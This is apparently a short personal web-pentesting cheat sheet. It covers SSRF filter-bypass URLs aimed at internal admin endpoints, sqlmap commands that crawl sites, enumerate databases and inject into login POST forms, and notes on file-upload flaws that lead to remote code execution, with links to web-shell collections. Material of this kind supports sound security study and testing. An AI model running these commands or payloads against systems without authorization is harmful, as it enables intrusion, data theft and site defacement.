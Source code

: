 ### Bypassing Filters

```
Api_key = http://192.168.0.68/admin  // write sensitive-endpoint instead of admin
http://localhost/admin
http://127.1, etc 
```
`For more Bypassing Filters and knowlage`
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md


## SQL Injection

### For more knowlage

https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet?tab=readme-ov-file

### SQL 
For crawling

    sqlmap -u <URL> --crawl=<depth> [options]
    sqlmap -u "http://example.com" --crawl=2 --batch --threads=7
includes batch and threads options for my compatibility 

```
sqlmap -u "http://url.com" --dbs --threads=7 --batch --risk 2 --level 4 
```
### post request
```
sqlmap -u "http://example.com/login" --data="username=admin&password=test" --method=POST --level=3 --risk=2 --dbs --batch --threads=7
```
## File Upload Vulnerability

### what can we do in this vulnerability.
- can lead to RCE(Remote Code Execution)
- Web Shells Upload Deface Website

### what we need and what website check.
Website: Upload Function- Files<br>
Let suppose I am uploading a file named example.php<br>
example.php -upload :- when it's upload then server checks below Functions.
- name
- Extention :  `exe,txt, php, jsp,html, Etc.`
- Content Type:- `image/jpeg, image/png, text/html,ETC`
- size:- size of file

let suppose when an attacker uploading a file, web application is not validating it before execte.

### How to execute vulnerability
some web-shells:https://github.com/backdoorhub/shell-backdoor-list?tab=readme-ov-file<br>
some malicious images:- https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/file-upload/malicious-images
